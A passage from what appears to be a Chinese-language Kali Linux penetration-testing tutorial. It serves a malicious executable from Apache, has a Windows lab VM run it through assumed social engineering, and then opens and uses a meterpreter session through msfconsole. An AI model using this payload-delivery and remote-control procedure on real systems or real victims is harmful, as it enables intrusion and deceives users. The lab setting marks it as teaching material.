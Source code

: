     ```
    service apache2 start
    ```

4.  之后，将恶意文件复制到 web 服务器文件夹内。

    ```
    cp cute_dolphin.exe /var/www/html/
    ```

5.  假设我们使用社会工程并使我们的受害者相信这个文件是需要执行来获得一些好处的东西。在 Windows 客户端虚拟机内，访问`http://192.168.56.1/cute_dolphin.exe`。

6.  你会被询问下载还是运行这个文件，出于测试目的，选择`Run`（运行），再被询问时，再次选择`Run`。

7.  现在，在 Kali MSFCONSOLE 的终端中，你会看到建立好的连接：

    ![](../img/315f9b347d57fa296a337033f535aa19.png)

8.  我们在后台运行连接处理器（`-j -z`选项）。让我们检查我们的活动会话：

    ```
    sessions
    ```

    ![](../img/b16c4899d3fd0c2b15e55158297f35d9.png)

9.  如果我们打算和会话交互，可以使用`-i`选项，带有会话的编号：

    ```
    sessions -i 1 
    ```

10.  我们会看到 meterpreter 的提示符。现在，我们可以请求被入侵系统的信息。

    ```
    sysinfo
    ```

    ![](../img/3da091af768431da60d615c0c0cfc745.png)
